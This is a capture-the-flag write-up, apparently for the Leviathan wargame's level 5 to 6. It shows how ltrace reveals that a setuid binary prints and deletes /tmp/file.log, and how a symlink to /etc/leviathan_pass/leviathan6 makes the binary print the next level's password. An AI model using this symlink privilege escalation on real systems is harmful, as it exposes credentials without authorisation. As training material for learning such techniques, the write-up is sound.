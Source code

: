 ## Leviathan 5-6
Category: `binary`

## Description
There is no information for this level, intentionally.

## Analysis
```
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
leviathan5@leviathan:~$ cat /tmp/file.log
cat: /tmp/file.log: No such file or directory
```
I found a binary that checks if the file "/tmp/file.log" exists, then I tried to create the file and run the binary again, nothing happens. Let's try to put any text in the file 
```
leviathan5@leviathan:~$ echo bash > /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                                                                      = 0x804b008
fgetc(0x804b008)                                                                                                                                 = 'b'
feof(0x804b008)                                                                                                                                  = 0
putchar(98, 0x8048720, 0xf7e40890, 0x80486eb)                                                                                                    = 98
fgetc(0x804b008)                                                                                                                                 = 'a'
feof(0x804b008)                                                                                                                                  = 0
putchar(97, 0x8048720, 0xf7e40890, 0x80486eb)                                                                                                    = 97
fgetc(0x804b008)                                                                                                                                 = 's'
feof(0x804b008)                                                                                                                                  = 0
putchar(115, 0x8048720, 0xf7e40890, 0x80486eb)                                                                                                   = 115
fgetc(0x804b008)                                                                                                                                 = 'h'
feof(0x804b008)                                                                                                                                  = 0
putchar(104, 0x8048720, 0xf7e40890, 0x80486eb)                                                                                                   = 104
fgetc(0x804b008)                                                                                                                                 = '\n'
feof(0x804b008)                                                                                                                                  = 0
putchar(10, 0x8048720, 0xf7e40890, 0x80486ebbash
)                                                                                                    = 10
fgetc(0x804b008)                                                                                                                                 = '\377'
feof(0x804b008)                                                                                                                                  = 1
fclose(0x804b008)                                                                                                                                = 0
getuid()                                                                                                                                         = 12005
setuid(12005)                                                                                                                                    = 0
unlink("/tmp/file.log")                                                                                                                          = 0
+++ exited (status 0) +++
```
Looks like it just prints characters from the file. Let's figure out what it does function by function:
`fopen, fdopen, freopen` - stream open functions 
`fgetc` - reads the next character from _stream_
`feof` - test end-of-file indicator on a stream
`putchar` - put a byte on a stdout stream
`fclose` - close a stream
`unlink, unlinkat` - delete a name and possibly the file it refers to

Oh, it really just opens the file, prints the characters and then deletes the file itself via `unlink("/tmp/file.log")`.  As far as I remember, the owner of the binary is leviathan6, and the file has setuid permission, which means that when we run the binary we get access to leviathan6. Let's try to create a symlink "/tmp/file.log", which will lead to the password of leviathan6.
```
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ls /tmp/file.log
/tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
leviathan6_password
```

